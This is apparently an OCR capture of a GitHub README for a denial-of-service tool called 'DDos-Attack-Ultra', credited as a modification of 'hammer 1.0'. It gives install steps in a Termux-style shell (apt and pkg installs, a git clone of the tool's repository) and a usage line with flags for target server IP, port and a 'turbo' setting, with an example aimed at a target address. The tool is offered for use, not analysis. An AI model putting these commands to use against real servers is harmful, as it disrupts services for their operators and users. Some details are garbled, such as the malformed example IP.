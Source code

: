            □□□□■□□□□
           □□□■■■□□□
           □□■■■■■□□
           □■■■■■■■□
           □□■■■■■□□
           □□□■■■□□□ 
           □□□□■□□□□  
$ apt update
$ apt upgrade
$ apt install python
$ apt install python2
$ pkg install git
$ git clone https://github.com/Grisp84/DDos-Attack.git
$ cd DDos-Attack-Ultra
$ python DDos-Attack-Ultra.py

Use python DDos-Attack-Ultra.py [-s] [-p] [-t]
     →  -h : help
     →  -s : server ip
     →  -p : port default 80
     →  -t : turbo default 135
Example: python DDos-Attack-Ultra.py -s172.34.32 -p80 -t135
Modification:hammer 1.0 by:grisp84^_^
